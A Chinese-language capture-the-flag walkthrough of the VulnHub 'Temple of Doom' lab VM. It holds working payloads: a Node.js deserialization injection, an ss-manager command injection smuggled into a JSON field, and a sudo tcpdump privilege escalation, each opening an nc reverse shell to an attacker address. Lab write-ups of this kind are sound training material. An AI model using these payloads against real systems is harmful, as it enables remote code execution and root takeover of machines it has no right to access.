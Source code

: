 # Temple of Doom

> https://download.vulnhub.com/templeofdoom/temple-of-DOOM-v1.ova

靶场IP：`192.168.32.10`

扫描对外端口服务

```
┌──(root㉿kali)-[~]
└─# nmap -sV -p1-65535 192.168.32.10
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-06 23:25 EDT
Nmap scan report for 192.168.32.10
Host is up (0.00013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.7 (protocol 2.0)
666/tcp open  http    Node.js Express framework
MAC Address: 08:00:27:D1:C1:2D (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.63 seconds

```

浏览器访问666端口

![image-20220907112648441](../../.gitbook/assets/image-20220907112648441.png)

再次刷新就会报错

![image-20220907123835446](../../.gitbook/assets/image-20220907123835446.png)

使用bp抓取数据包，分析，报错原因是CSRFtoken过期导致报错

![image-20220907133703733](../../.gitbook/assets/image-20220907133703733.png)

把CSRF相关字段删掉重新发送，会提示`helle Admin`。

![image-20220907133849418](../../.gitbook/assets/image-20220907133849418.png)

根据nodejs反序列化漏洞，可以生成payload

> https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

```
{"username":"_$$ND_FUNC$$_function (){return require('child_process').execSync('id',(error, stdout, stderr)=>{ console.log(stdout); }); }()"}
```

![image-20220907134931940](../../.gitbook/assets/image-20220907134931940.png)

构造反弹shell

```
{"username":"_$$ND_FUNC$$_function (){return require('child_process').execSync('nc -e  /bin/bash 192.168.32.5 1234', (error, stdout, stderr)=>{ console.log(stdout); }); }()"}
```

![image-20220907135115408](../../.gitbook/assets/image-20220907135115408.png)

查看`/etc/passwd`文件，找到ss-manager 

```
fireman:x:1002:1002::/home/fireman:/bin/bash
```

找到exp：https://www.exploit-db.com/exploits/43006

```
nc -u 127.0.0.1 8839
```

```
add: {"server_port":8003, "password":"test", "method":"|| nc 192.168.32.5 5555 -e /bin/bash||"}
```

![image-20220907140028677](../../.gitbook/assets/image-20220907140028677.png)

提权exp

```
COMMAND='nc 192.168.32.5 5001 -e /bin/bash'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```

可以建立连接

![image-20220907140827841](../../.gitbook/assets/image-20220907140827841.png)

![image-20230208160741149](../../.gitbook/assets/image-20230208160741149.png)